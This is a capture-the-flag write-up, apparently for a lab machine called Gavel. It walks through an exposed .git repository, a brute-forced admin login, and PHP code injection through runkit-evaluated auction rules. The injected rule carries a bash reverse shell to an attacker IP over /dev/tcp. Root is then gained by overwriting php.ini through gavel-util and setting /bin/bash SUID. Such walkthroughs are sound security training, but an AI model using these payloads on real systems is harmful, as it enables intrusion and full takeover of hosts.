




Exploitation Summary
Exploitation process: The target machine ran an auction web application with exposed .git repository allowing source code analysis. Through credential brute-forcing, I gained access to the auctioneer admin panel, where I could modify auction item rules.
These rules were dynamically evaluated as PHP code using the runkit extension, enabling arbitrary PHP code execution. By injecting a reverse shell payload into a rule and triggering it through a bid, I obtained initial access as www-data.
Lateral movement to the auctioneer user was achieved using the same credentials from the web panel. For privilege escalation, I exploited the gavel-util binary which processed YAML files with PHP rule evaluation. Although PHP functions were restricted via php.ini, the open_basedir configuration allowed writing to /opt/gavel where the php.ini file was located. By overwriting this configuration file to remove function restrictions and then executing a command to make /bin/bash SUID, I achieved root access.
Technologies/Exploits: Git repository disclosure, credential brute-forcing, PHP dynamic function creation with runkit, PHP code injection, php.ini configuration override, SUID privilege escalation.
Initial Reconnaissance
Starting with an nmap scan to identify open ports and services:

The scan reveals SSH on port 22 and HTTP on port 80. I add gavel.htb to my /etc/hosts file to resolve the domain.
Web Application Enumeration
The web application is an auction platform where users can register, log in, and place bids on items. I create an account and explore the functionality, testing various features like bidding and inventory management.
Running a gobuster directory scan reveals several interesting endpoints:

The presence of an /admin directory suggests there's an administrative panel that requires elevated privileges to access.
Exploring Inventory Functionality
In inventory.php, I can filter items by name or quantity. The filtering functionality sends a POST request with the following body:
user_id=2&sort=quantityBy modifying the user_id parameter to 1, I can view another user's inventory items, confirming the existence of at least one other user in the system.
Exposed Git Repository
Continuing enumeration with a more comprehensive wordlist, I discover an exposed .git directory:

This is a significant finding as it allows me to download the entire source code repository. I use git-dumper to extract the repository:
git-dumper http://gavel.htb/.git/ gavel-sourceSource Code Analysis
Reviewing the downloaded PHP source code, I discover a particularly interesting code snippet that handles auction rule validation:
if (function_exists('ruleCheck')) {
runkit_function_remove('ruleCheck');
}
runkit_function_add('ruleCheck', '$current_bid, $previous_bid, $bidder', $rule);
error_log("Rule: " . $rule);
$allowed = ruleCheck($current_bid, $previous_bid, $bidder);This code uses the runkit extension to dynamically create functions at runtime. The $rule variable contains PHP code that gets executed as part of the function body. The rules are defined in YAML format:
rules:
- rule: "return $current_bid >= $previous_bid * 1.1;"
message: "Bid at least 10% more than the current price."
- rule: "return $current_bid % 5 == 0;"
message: "Bids must be in multiples of 5."
- rule: "return $current_bid >= $previous_bid + 5000;"
message: "Only bids greater than 5000 + current bid will be considered."Since the rule field contains PHP code that gets executed directly, if I can control this value, I can inject arbitrary PHP commands for code execution.
SQL Injection Investigation
I also notice a potential SQL injection point in the inventory sorting functionality:
$sortItem = $_POST['sort'] ?? $_GET['sort'] ?? 'item_name';
$userId = $_POST['user_id'] ?? $_GET['user_id'] ?? $_SESSION['user']['id'];
$col = "`" . str_replace("`", "", $sortItem) . "`";
if ($sortItem === 'quantity') {
$stmt = $pdo->prepare("SELECT item_name, item_image, item_description, quantity FROM inventory WHERE user_id = ? ORDER BY quantity DESC");
$stmt->execute([$userId]);
} else {
$stmt = $pdo->prepare("SELECT $col FROM inventory WHERE user_id = ? ORDER BY item_name ASC");
$stmt->execute([$userId]);
}However, after extensive testing and research, I conclude that SQL injection is not feasible here because the backticks surrounding $col cannot be escaped, effectively neutralizing any injection attempts.
Gaining Admin Access
Analyzing the admin panel protection code:
if (!isset($_SESSION['user']) || $_SESSION['user']['role'] !== 'auctioneer') {
header('Location: index.php');
exit;
}This code only checks that the user role is auctioneer, not the specific username. Based on this, I assume the admin username is likely auctioneer.
I use caido to perform a brute-force attack against the login POST endpoint. After some time, I successfully discover valid credentials:
auctioneer:midnight1Initial Access - PHP Code Injection
Logging in with the auctioneer credentials grants me access to the administrative panel where I can edit auction items in real-time:

This is exactly what I need to exploit the dynamic PHP function creation vulnerability I discovered earlier. Since I can edit the rule field, I can inject arbitrary PHP code that will be executed when the rule is evaluated.
Crafting the Payload
I modify an item's rule to include a reverse shell payload:

The injected rule contains a PHP reverse shell that will connect back to my machine:
return system('bash -c "bash -i >& /dev/tcp/10.10.16.6/443 0>&1"');I set up a netcat listener on my attacking machine:
sudo nc -lvnp 443Then, I switch back to my regular user account and place a bid on the modified item with a valid amount. When the system evaluates the rule to check if my bid is valid, it executes my injected PHP code, triggering the reverse shell.
I successfully receive the connection and obtain shell access as the www-data user.
Lateral Movement to Auctioneer User
Exploring the system, I find the auctioneer user in /home. Checking the user's group memberships:
id auctioneeruid=1001(auctioneer) gid=1002(auctioneer) groups=1002(auctioneer),1001(gavel-seller)The gavel-seller group looks interesting. I attempt to switch to the auctioneer user using the same credentials from the web application:
su - auctioneerThe password reuse works, and I successfully switch to the auctioneer user. Note that SSH is not enabled for this user, which explains why the initial reverse shell was necessary.
Privilege Escalation - Gavel-Util Binary
I search for files accessible by the gavel-seller group:
find / -group gavel-seller 2>/dev/null/run/gaveld.sock
/usr/local/bin/gavel-utilThe gavel-util binary is particularly interesting. Let me examine its functionality:
gavel-utilUsage: gavel-util [options]
Commands:
submit Submit new items (YAML format)
stats Show Auction stats
invoice Request invoice I transfer the binary to my local machine for analysis:
file /usr/local/bin/gavel-util/usr/local/bin/gavel-util: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=941cf63911b2f8f4cabff61062f2c9ad64f043d6, for GNU/Linux 3.2.0, not strippedTesting PHP Execution
I focus on the submit command since it accepts user input. Creating a test YAML file:
price: 2
rule_msg: asd
rule: print('xdd');
name: xd
image: no_image
description: xdSubmitting this file:
gavel-util submit items.yamlIllegal rule or sandbox violation.xddSANDBOX_RETURN_ERRORThe output shows that print('xdd') was executed (hence "xdd" in the output), confirming PHP code execution is possible!
PHP Restrictions Discovery
However, attempting to use system() reveals restrictions:
gavel-util submit items.yamlIllegal rule or sandbox violation.
Warning: system() has been disabled for security reasons in Command line code on line 1
SANDBOX_RETURN_ERRORThe same restriction applies to exec(), shell_exec(), passthru(), popen(), and proc_open().
After exploring the system, I discover PHP configuration files in /opt/gavel:
cat /opt/gavel/.config/php/php.iniengine=On
display_errors=On
display_startup_errors=On
log_errors=Off
error_reporting=E_ALL
open_basedir=/opt/gavel
memory_limit=32M
max_execution_time=3
max_input_time=10
disable_functions=exec,shell_exec,system,passthru,popen,proc_open,proc_close,pcntl_exec,pcntl_fork,dl,ini_set,eval,assert,create_function,preg_replace,unserialize,extract,file_get_contents,fopen,include,require,require_once,include_once,fsockopen,pfsockopen,stream_socket_client
scan_dir=
allow_url_fopen=Off
allow_url_include=OffThe disable_functions directive explains why command execution functions don't work. However, I notice an important detail: the open_basedir restriction only allows writing to /opt/gavel - which is exactly where the php.ini file is located!
PHP.ini Configuration Override
Testing the open_basedir restriction:
gavel-util submit items.yamlIllegal rule or sandbox violation.
Warning: file_put_contents(): open_basedir restriction in effect. File(xd.txt) is not within the allowed path(s): (/opt/gavel) in Command line code on line 1This confirms I can only write within /opt/gavel, but that's perfect since I can overwrite the php.ini file itself!
Exploitation Strategy
My attack plan is:
- Create a YAML file that overwrites
php.inito remove function restrictions - Create another YAML file that makes
/bin/bashSUID - Execute both files in sequence with
gavel-util - Launch a privileged bash shell
First YAML file to remove restrictions (remove_restrictions.yaml):
price: 2
rule_msg: asd
rule: "return file_put_contents('/opt/gavel/.config/php/php.ini', 'engine=On\ndisplay_errors=On\ndisplay_startup_errors=On\nlog_errors=Off\nerror_reporting=E_ALL\nopen_basedir=/opt/gavel\nmemory_limit=32M\nmax_execution_time=3\nmax_input_time=10\ndisable_functions=\nscan_dir=\nallow_url_fopen=Off\nallow_url_include=Off\n');"
name: xd
image: no_image
description: xdSecond YAML file to make bash SUID (make_suid.yaml):
price: 2
rule_msg: asd
rule: "return system('chmod u+s /bin/bash');"
name: xd
image: no_image
description: xdExecuting the attack:
gavel-util submit remove_restrictions.yaml
gavel-util submit make_suid.yamlNow I can spawn a privileged bash shell:
bash -pI now have root access and can retrieve the root flag.
Cleanup
Since this is a shared machine environment, I clean up my modifications to avoid interfering with other players:
chmod u-s /bin/bashI also restore the original php.ini restrictions and remove the YAML files I created.